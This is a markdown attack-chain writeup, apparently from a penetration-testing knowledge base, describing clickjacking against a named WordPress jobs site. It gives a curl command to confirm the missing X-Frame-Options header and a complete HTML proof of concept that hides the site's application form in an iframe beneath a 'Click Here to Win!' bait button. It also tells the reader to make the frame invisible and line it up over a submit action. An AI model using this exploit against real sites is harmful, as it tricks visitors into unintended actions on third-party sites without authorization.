

# Clickjacking Exploitation via Missing X-Frame-Options on WordPress Site

Multi-stage attack chain demonstrating a complete clickjacking workflow on a vulnerable WordPress site.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome Developer Tools)
- Local web server (optional, for hosting PoC)

### Target Environment

- Target Platform: Web application (WordPress)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Public internet access to target site

### Initial Access Requirements

- No credentials required
- Attacker controls a malicious website
- Victim must visit attacker's site

## Detailed Attack Procedures

### Step 1: Vulnerability Identification
procedure: [[procedures/Check-for-Clickjacking-Vulnerability]]

**Objective**: Verify the absence of X-Frame-Options or CSP frame-ancestors headers on the target site to confirm clickjacking susceptibility.

**Instructions**: Use [[commands/curl-check-headers]] to fetch and inspect response headers from the target URL:

```bash
curl -I https://jobs.wordpress.net/
```

Look for missing `X-Frame-Options` header in the output. If absent, the site can be iframed.

**Expected Output**: HTTP response headers without `X-Frame-Options: DENY` or similar.

**Success Indicators**:
- No X-Frame-Options header present
- Site loads in an iframe test (manual browser check)

### Step 2: Exploit Demonstration
procedure: [[procedures/Demonstrate-Clickjacking-PoC]]

**Objective**: Create and host a malicious page that embeds the target in an invisible iframe to overlay deceptive elements, tricking the user into clicking hidden actions.

**Instructions**: First, confirm iframe embedding works by creating a simple HTML PoC file locally. Save the following as `clickjack-poc.html`:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Click the Button!</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; opacity: 0.5; width: 1000px; height: 1000px; }
        .bait { position: absolute; top: 100px; left: 100px; z-index: 1; }
    </style>
</head>
<body>
    <button class="bait">Click Here to Win!</button>
    <iframe src="https://jobs.wordpress.net/apply-form/"></iframe>
</body>
</html>
```

Host this file on a local server (e.g., using Python: `python -m http.server 8000`) and access it in a browser. Adjust opacity to 0 for invisibility and align the iframe over a target action like a submit button.

**Expected Output**: The target site embeds in the iframe; clicking the bait button interacts with the hidden site's elements.

**Success Indicators**:
- Iframe loads without errors
- User clicks trigger unintended actions on the target site (e.g., form submission)

## Attack Chain Summary

### Key Achievements

1. Confirmed missing security headers enabling iframe embedding
2. Demonstrated user deception via overlay technique
3. Highlighted low-severity impact on user interactions without direct data exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
